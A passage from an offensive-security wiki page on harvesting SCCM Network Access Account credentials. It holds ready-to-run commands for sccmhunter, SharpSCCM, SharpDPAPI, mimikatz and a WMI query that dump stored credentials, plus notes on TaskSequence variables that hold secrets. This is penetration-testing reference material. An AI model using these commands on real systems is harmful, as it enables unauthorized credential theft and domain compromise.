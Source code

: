 ```bash
#Create a new computer account and request the policies
python3 sccmhunter.py http -u $USER -p $PASSWORD -d $DOMAIN -dc-ip $DC_IP -auto

#To use an already controlled computer account
python3 sccmhunter.py http -u $USER -p $PASSWORD -d $DOMAIN -cn $COMPUTER_NAME -cp $COMPUTER_PASSWORD -dc-ip $DC_IP
```
{% endtab %}

{% tab title="From Windows" %}
From a Windows machine enrolled in the SCCM environment, [SharpSCCM](https://github.com/Mayyhem/SharpSCCM) (C#), [SharpDPAPI](https://github.com/GhostPack/SharpDPAPI), [Mimikatz](https://github.com/gentilkiwi/mimikatz) (C) or a PowerShell command, can be used with, administrative rights, to extract the NAA credentials locally.

```powershell
# Locally From WMI
Get-WmiObject -Namespace ROOT\ccm\policy\Machine\ActualConfig -Class CCM_NetworkAccessAccount

# Extracting from CIM store
SharpSCCM.exe local secretes disk

# Extracting from WMI
SharpSCCM.exe local secretes wmi

# Using SharpDPAPI
SharpDPAPI.exe SCCM

# Using mimikatz
mimikatz.exe
mimikatz # privilege::debug
mimikatz # token::elevate
mimikatz # dpapi::sccm
```

SharpSCCM also permits to request the SCCM policy remotely to retrieve the NAA credentials inside.

```powershell
SharpSCCM.exe get secretes
```
{% endtab %}
{% endtabs %}

#### TaskSequence variables

TaskSequence are steps that can be configured by an administrator to perform specific actions, for example "Sequence for adding a machine to the domain". Think of it as a script that runs. These TaskSequences can contain variables that can contain credentials. These sequences can use device collection variables (presented in the next section) as conditions.

{% tabs %}
{% tab title="UNIX-based" %}
At the time of writing, no solution exists to perform this attack from a UNIX-like machine.
{% endtab %}
